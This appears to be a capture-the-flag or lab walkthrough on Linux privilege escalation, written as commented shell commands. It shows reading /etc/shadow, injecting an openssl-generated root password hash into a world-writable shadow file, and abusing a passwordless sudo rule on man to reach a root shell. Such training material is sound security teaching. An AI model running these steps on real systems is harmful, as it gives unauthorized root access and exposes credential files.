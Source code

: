 <br>

# Linux Privilege Escalation - Permissions Matter!

```shell
# This command searches the entire filesystem (/) for files or directories that are not symbolic links (-not -type l) and are world-writable (-perm -o+w). It helps identify potentially insecure files that anyone on the system can write to, which can be a security risk.
find / -not -type l -perm -o+w

# Observe from the result that /etc/shadow is world writable. Verify the same and also check its contents.
ls -l /etc/shadow
cat /etc/shadow

# Observe that the root password is not set. Adding a known password in the shadow file can escalate to root. Use openssl to generate a password entry. - root:*:... -
openssl passwd -1 -salt abc password

# Copy the generated entry and add it to the root record in /etc/shadow
vim /etc/shadow
<root:HASH:...>

# After making the changes, try to switch to the root user.
su

# Once the escalation to root is complete, retrieve the flag located in /root directory.
cd /root
ls -l
cat flag
```

**Note**: `sudo su` works only if the current user has `sudo` privileges, allowing them to become root directly. If the user is low-privileged and not in the sudoers group, `sudo su` won’t work, and privilege escalation must be done another way. One method is injecting a known password hash into `/etc/shadow`, which allows logging in as root using `su` and that password, even without `sudo` access.

<br>

# Linux Privilege Escalation - SUDO Privileges

We are now trying to escalate privileges to get root. After some digging around and from other sources, we figured out that the same person in the organization uses both the student account and the root account on the system.

```shell
find / -user root -perm -4000 -exec ls -ldb {} \;
# Searches the entire filesystem (/) for files that are owned by root and have the SUID (Set User ID) bit set — represented by 4000. The SUID permission allows a file to be executed with the privileges of its owner (in this case, root), which can be exploited for privilege escalation if the file is vulnerable. The -exec ls -ldb {} part lists each found file with detailed permissions and ownership info.

# No anomaly is there. Move on to finding misconfigured sudo. Check the current sudo capabilities. Check if we can run sudo without a password
sudo -l

# The man entry depicts that the man command can be run using sudo without providing any password. Run it and launch /bin/bash from it
# We got (root) NOPASSWD: /usr/bin/man
# This means the user student is allowed to run the man command as root without needing a password using sudo.
sudo man ls
```
